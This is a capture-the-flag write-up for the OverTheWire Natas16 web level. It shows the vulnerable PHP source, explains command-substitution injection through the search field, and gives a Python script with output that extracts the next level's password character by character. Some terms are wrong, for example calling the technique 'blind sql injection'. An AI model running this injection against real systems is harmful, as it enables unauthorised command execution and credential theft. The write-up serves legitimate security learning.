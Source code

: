# CTF Writeup - **OverTheWire Natas15 - Natas16**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas15 - Natas16
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 16-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using blind injection.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas16
Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
URL:      http://natas16.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for an input.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
For security reasons, we now filter even more on certain characters
Find words containing: natas
# sonatas
```

Now we see that we get the words that has natas in it in the list. Lets view the source code. 

```bash
# Output:
# <pre>
# <?
# $key = "";

# if(array_key_exists("needle", $_REQUEST)) {
#     $key = $_REQUEST["needle"];
# }

# if($key != "") {
#     if(preg_match('/[;|&`\'"]/',$key)) {
#         print "Input contains an illegal character!";
#     } else {
#         passthru("grep -i \"$key\" dictionary.txt");
#     }
# }
# ?>
# </pre>
```

We can see that there is a small piece of code that is executed when we click on submit. That takes out input and checks if there is any special characters in the input that matches with the restricted characters. if it matches then it errors out. Else, it tries to find out the text that matches out input. Something that is very interesting here is that we can see special characters like `$(/)` is not restricted so we can take advantage of this and exploit it. What we can do is use command substitution. For example `echo $(pwd)` the following command executes `pwd` command and then executes the `echo` command next. This prints the current working directory. Since we know the place where the password is stored we can use `$(grep {char} /etc/natas_webpass/natas17)testing` as input as this will check if the `char` is present in the password file. If the character is present then it will print the password which is appended to `testing`. This resulting string will not be present in the dictionary file. If the character is not present in the file then it ends up searching `testing` alone. This will produce results. This is similar to previours challenge so we can do it using python as shown below.


```bash
import string
import requests
from urllib.parse import quote

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

characters = ''.join([string.ascii_letters, string.digits])

# Step 1: Determine the valid characters in the password
valid_password = ""
for char in characters:
    uri = "{0}?needle=$(grep {1} /etc/natas_webpass/natas17)testing".format(url, char)
    r = requests.get(uri, auth=(auth_username, auth_password))
    if 'testing' not in r.text:
        valid_password += char
        print("Password Dictionary: {}".format(''.join(valid_password)))


password = []
for i in range(0, 32):
    for char in valid_password:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)testing".format(url, ''.join(password), char)
        r = requests.get(uri, auth=(auth_username, auth_password))
        if 'testing' not in r.text:
            password.append(char)
            print( "Passoword so far: "+ ''.join(password))
            break
        else:
            continue

```

What we are doing here is that we are essentially finding all the characters in the password using the bruteforce approach and blind sql injection which checks if the character is present in the passowrd file and returns respone. With this we will have all the characters in the password. Now we need to determine the order of these characters that is done in the second loop where we build the characters one by one untill we find the right order.  

```bash
# Password Dictionary: b
# Password Dictionary: bh
# Password Dictionary: bhj
# Password Dictionary: bhjk
# Password Dictionary: bhjko
# Password Dictionary: bhjkoq
# Password Dictionary: bhjkoqs
# Password Dictionary: bhjkoqsv
# Password Dictionary: bhjkoqsvw
# Password Dictionary: bhjkoqsvwC
# Password Dictionary: bhjkoqsvwCE
# Password Dictionary: bhjkoqsvwCEF
# Password Dictionary: bhjkoqsvwCEFH
# Password Dictionary: bhjkoqsvwCEFHJ
# Password Dictionary: bhjkoqsvwCEFHJL
# Password Dictionary: bhjkoqsvwCEFHJLN
# Password Dictionary: bhjkoqsvwCEFHJLNO
# Password Dictionary: bhjkoqsvwCEFHJLNOT
# Password Dictionary: bhjkoqsvwCEFHJLNOT0
# Password Dictionary: bhjkoqsvwCEFHJLNOT05
# Password Dictionary: bhjkoqsvwCEFHJLNOT057
# Password Dictionary: bhjkoqsvwCEFHJLNOT0578
# Password Dictionary: bhjkoqsvwCEFHJLNOT05789
# Passoword so far: E
# Passoword so far: Eq
# Passoword so far: Eqj
# Passoword so far: EqjH
# Passoword so far: EqjHJ
# Passoword so far: EqjHJb
# Passoword so far: EqjHJbo
# Passoword so far: EqjHJbo7
# Passoword so far: EqjHJbo7L
# Passoword so far: EqjHJbo7LF
# Passoword so far: EqjHJbo7LFN
# Passoword so far: EqjHJbo7LFNb
# Passoword so far: EqjHJbo7LFNb8
# Passoword so far: EqjHJbo7LFNb8v
# Passoword so far: EqjHJbo7LFNb8vw
# Passoword so far: EqjHJbo7LFNb8vwh
# Passoword so far: EqjHJbo7LFNb8vwhH
# Passoword so far: EqjHJbo7LFNb8vwhHb
# Passoword so far: EqjHJbo7LFNb8vwhHb9
# Passoword so far: EqjHJbo7LFNb8vwhHb9s
# Passoword so far: EqjHJbo7LFNb8vwhHb9s7
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75h
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75ho
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hok
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5T
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0O
# Passoword so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```


## Flag

**Flag:** EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.